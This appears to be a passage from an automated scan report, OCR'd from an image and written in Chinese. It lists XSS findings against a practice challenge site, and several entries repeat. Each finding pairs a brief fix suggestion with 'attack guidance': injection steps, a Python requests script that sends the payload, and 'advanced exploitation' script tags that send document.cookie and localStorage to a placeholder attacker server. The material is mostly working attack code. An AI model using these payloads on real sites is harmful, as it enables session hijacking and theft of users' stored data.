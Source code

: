 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: <svg onload=alert(1)>
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   <svg onload=alert(1)>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': '<svg onload=alert(1)>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: submit
- 严重程度: medium
- 验证载荷: javascript:alert(1)
- 修复建议: 对用户输入进行HTML编码，使用现代框架的XSS防护机制

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 submit 中注入以下payload:
   ```javascript
   javascript:alert(1)
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'submit': 'javascript:alert(1)'}
   response = requests.get(url, params=params)
   ```
